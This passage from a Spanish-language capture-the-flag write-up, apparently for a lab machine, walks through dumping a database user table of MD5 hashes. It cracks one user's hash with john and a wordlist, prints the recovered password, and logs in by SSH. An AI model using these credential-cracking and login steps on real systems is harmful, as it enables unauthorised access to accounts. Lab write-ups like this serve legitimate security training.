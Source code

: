 Vamos a ver la informacion de `user` que es la mas interesante:

```sql
select * from user;
```

Info:

```
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
3|ezboi|726fc2abe79d325c745210240c13dd89
```

Veremos cosas interesantes entre ellas el usuario `marco` con su contraseña `hasheada`, como vemos que existe a nivel de sistema, vamos a probar a `crackear` dicha contraseña de `marco`.

> hash

```
marco:649c9d65a206a75f5abe509fe128bce5
```

Ahora con `john` haremos lo siguiente:

```shell
john --format=Raw-MD5 --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
sweetangelbabylove (marco)     
1g 0:00:00:00 DONE (2025-09-19 11:35) 7.142g/s 24633Kp/s 24633Kc/s 24633KC/s sweetart098..sweetali786
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Veremos que ha funcionado, por lo que vamos a probar dichas credenciales por `SSH` a ver si funcionaran:

### SSH

```shell
ssh marco@<IP>
```

Metemos como contraseña `sweetangelbabylove`...

```
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri 19 Sep 2025 03:35:41 PM UTC

  System load:           0.02
  Usage of /:            58.8% of 5.08GB
  Memory usage:          35%
  Swap usage:            0%
  Processes:             241
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.82
  IPv6 address for eth0: dead:beef::250:56ff:fe94:768a

```